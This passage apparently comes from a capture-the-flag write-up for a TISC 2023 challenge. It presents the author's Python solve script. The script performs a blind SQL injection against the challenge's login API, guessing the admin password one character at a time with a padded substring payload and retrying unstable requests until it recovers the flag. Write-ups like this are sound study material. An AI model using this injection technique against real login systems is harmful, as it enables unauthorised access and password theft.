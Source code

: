 Here is my final solve script:

```python:s.py
import requests
import subprocess
from string import ascii_letters, digits

possible = ascii_letters + digits + '_'

url = 'http://chals.tisc23.ctf.sg:28471/api/login'

j = 6
ans = 'TISC{'
while True:
    for c in possible:
        print(str(j) + ': trying ' + c)
        pay0 = f'admin" and binary substring(password, {j}, 1) = "{c}";#'
        pay1 = pay0
        pay1 += 'A' * (68 - len(pay0)) + '%02'

        i = 1
        correct = False
        while True:
            if i % 50 == 0:
                print(i)
            resp = requests.post(url, data={'username': pay1, 'password': 'B'})
            if ('Something went wrong' not in resp.text):
                if 'Welcome, admin' in resp.text:
                    correct = True
                elif 'Invalid username/password' in resp.text:
                    correct = False
                else:
                    print('Unexpected result:')
                    print(resp.text)
                    import sys; sys.exit(1)
                break
            i += 1
        
        if correct:
            ans += c
            print(ans)
            j += 1
            break
    
    else:
        print('failed at:', j)
        break
```

Notice the second `while True` loop in sending the request. This was because results from the lambda function were very inconsistent, and invoking the lambda function twice would give different results, so I had to keep trying until the correct sql query was returned. This was why I also added a lot of print statements throughout, so I would not lose progress in event of an error.

Eventually however, I get the flag: `TISC{a1PhAb3t_0N1Y}`
